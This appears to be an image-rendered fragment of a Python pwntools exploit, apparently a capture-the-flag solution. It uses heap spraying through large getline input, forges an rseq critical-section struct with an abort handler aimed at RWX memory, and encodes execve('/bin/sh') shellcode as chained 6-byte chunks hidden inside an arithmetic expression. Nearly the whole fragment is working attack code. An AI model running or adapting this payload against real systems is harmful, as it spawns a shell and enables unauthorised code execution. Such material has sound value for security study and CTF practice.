 ```py
            data = data.encode()
        sla(b"\n", data)
        sleep(speed)

    # getline will need a big chunk -> malloc will use mmap
    interact(f"A"*0x20000)
    # prepare rseq_cs struct
    payload = flat([
        0, # environ & flags (needs to be 0)
        rwx+0x10000, # critical section start
        0x200000, # critical section size
        rwx+2+4, # abort handler
    ])
    interact(b"A"*0x10000 + payload) # put it far away so our next input doesn't break it


    # code used to generate the shellcode
#     code = """
# xor eax, eax
# mov ebx, 0x0068732f
# shl rbx, 32
# mov ecx, 0x6e69622f
# or rbx, rcx
# push rbx
# mov rdi, rsp
# xor esi, esi
# xor edx, edx
# push 0x3b   
# pop rax
# syscall
# """

    # code = [asm(c) for c in code.splitlines()]
    # jmp = b"\xeb\x03" # jmp 5
    # parts = [b""]
    # for c in code:
    #     p = parts[-1]
    #     if len(p) + len(c) > 6:
    #         parts[-1] = p.ljust(6, b"\x90") + jmp
    #         parts.append(c)
    #     else:
    #         parts[-1] += c
    # parts[-1] = p.ljust(6, b"\x90") + jmp
    # numbers = [u64(p) for p in parts]
    
    # print(numbers)

    numbers = [
        0x03eb909053053053,
        0x03eb90909090c031,
        0x03eb900068732fbb,
        0x03eb909020e3c148,
        0x03eb906e69622fb9,
        0x03eb909053cb0948,
        0x03eb90f631e78948,
        0x03eb90583b6ad231,
        0x03eb90909090050f,
    ]

    payload = b""
    for n in numbers:
        payload += str(n).encode() + b"+("
    payload += b"0" + b")"*len(numbers)
```